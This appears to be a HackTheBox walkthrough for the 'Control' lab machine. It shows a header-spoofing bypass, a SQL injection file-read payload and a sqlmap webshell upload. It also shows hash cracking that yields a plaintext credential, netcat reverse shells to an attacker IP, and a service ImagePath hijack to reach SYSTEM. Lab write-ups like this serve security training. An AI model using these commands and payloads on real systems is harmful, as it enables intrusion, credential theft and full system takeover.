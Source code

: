 ```yaml
---
title: "HTB: Control"
categories:
  - HackTheBox
tags:
  - HackTheBox
---
```


![Control](https://miro.medium.com/max/2866/0*VVgNDHYF1kz8pziK)

# Control

## Website Enumeration

In the source code of the index page for http://control.htb/ we see the following message:
```
<!-- To Do:
	- Import Products
	- Link to new payment system
	- Enable SSL (Certificates location \\192.168.4.28\myfiles)
<!-- Header -->
```

We'll keep this in mind for later.

At http://control.htb/admin.php there's a blank page with the message:

_Access Denied: Header Missing. Please ensure you go through the proxy to access this page_

To bypass this, we'll use the IP we grabbed above and add an X-Forwarded-For header:

```
X-Forwarded-For: 192.168.4.28
```

So, our entire request will look like:

```
GET /admin.php HTTP/1.1

Host: control.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.4.28/
X-Forwarded-For: 192.168.4.28
Connection: close
Upgrade-Insecure-Requests: 1
```

We're given access to the admin.php page!


test' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,load_file('C:/inetpub/wwwroot/admin.php')#

## Getting a Webshell/Reverse Shell

It's possible to upload a webshell using sqlmap:

```
sqlmap -r request.txt --file-dest="C:/inetpub/wwwroot/wolfshell.php" --file-write="wolfshell.php"
```

Using this "wolfshell" we are able to upload nc.exe to the server, and return a reverse shell to ourselves.

## Getting User Credentials

By dumping the DB, we found some credentials for users:

```
0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA
0A4A5CAD344718DC418035A1F4D292BA603134D8
```

If we run these through hashcat, we can get a password!

```
hashcat -m 300 cracked.txt /usr/share/wordlists/rockyou.txt --force
```

We get:

**l33th4x0rhector**

So, our credentials are:

**hector:l33th4x0rhector**

## Pivoting to Hector

Now, using switch.ps1, we are able to open a semi-interactive shell as hector. First, we'll need to give him access to run nc.exe:

```
cacls C:/TEMP/nc.exe /e /p hector:f
```

Now, after uploading our switch.ps1 shell, we can run it:

```
./switch.ps1
[localhost]: PS C:\Users\Hector\Documents> C:/TEMP/nc.exe -nv 10.10.14.26 4444 -e cmd.exe
```

Voila, a fully interactive user cmd shell!

### Switch.ps1 Script

```
function switch-psuser {

    Param(
        [Parameter(Position=0)]
        [ValidateSet("adminsystem","administrator")]
        $User = "adminsystem"
    )

    switch($User)
    {
        'adminsystem'   { $username = "domain\adminsystem" ; $pw = "yyy"}
        'administrator' { $username = "control\hector" ; $pw = "l33th4x0rhector" }
    }

    $password = $pw | ConvertTo-SecureString -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username,$password
    New-PSSession -Credential $cred | Enter-PSSession
}
switch-psuser administrator
```
                                         
Voila, a CONTROL\hector shell!

From here, we need to see what services are running. We can't use accesschk.exe, as we get "Access Denied" and we can't use procmon.exe, as it's completely blocked on the machine. Additionally, we can't use tasklist to list running tasks and get info that way. We can, however, query the registry.

```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\
```

We get a LONG list of services.

We can test to see which of these we can start (note, there are quite a few.) We'll need to copy all of the services, save the list on our local machine, and cut it. 

```
cat services.txt | cut -d '\' -f5 >> servicelist.txt
```

From here, we can use awk to add whatever we need to:

```
awk '{print "sc start " $0}' servicelist.txt | pbcopy
```

I've opted to use pbcopy for this, but we can use whatever program we wish to. We're simply piping the output into our clipboard.

Now, we'll paste this into our command window. Note, it needs to be cmd, not powershell. Powershell doesn't start or stop the services.

We can see that the following service can be started (among others):

```
NetSetupSvc
```

Because it can be started, we'll take a look at the parameters held within the registry for this service:

```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc
    DependOnService    REG_MULTI_SZ    RpcSs
    Description    REG_SZ    @%SystemRoot%\system32\NetSetupSvc.dll,-4
    DisplayName    REG_SZ    @%SystemRoot%\system32\NetSetupSvc.dll,-3
    ErrorControl    REG_DWORD    0x1
    FailureActions    REG_BINARY    FFFFFFFF000000000000000001000000140000000000000000000000
    ImagePath    REG_EXPAND_SZ    %SystemRoot%\System32\svchost.exe -k netsvcs -p
    ObjectName    REG_SZ    LocalSystem
    RequiredPrivileges    REG_MULTI_SZ    SeChangeNotifyPrivilege\0SeImpersonatePrivilege\0SeLoadDriverPrivilege
    ServiceSidType    REG_DWORD    0x1
    Start    REG_DWORD    0x3
    Type    REG_DWORD    0x20

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc\Parameters
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc\Security
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc\TriggerInfo
```

ImagePath looks interesting, as it's calling an executable and passing parameters to it. We'll edit this and see if we can get it to return a shell to us:

```
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc /v ImagePath /t REG_EXPAND_SZ /d "C:\Users\alcibiades\Documents\nc.exe -nv 10.10.14.5 4444 -e cmd.exe"  /f
```

With the ImagePath changed, we'll try to start the service with hector:

```
sc start NetSetupSvc
```

Now, we just catch the shell!

```
Microsoft Windows [Version 10.0.17763.805]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```



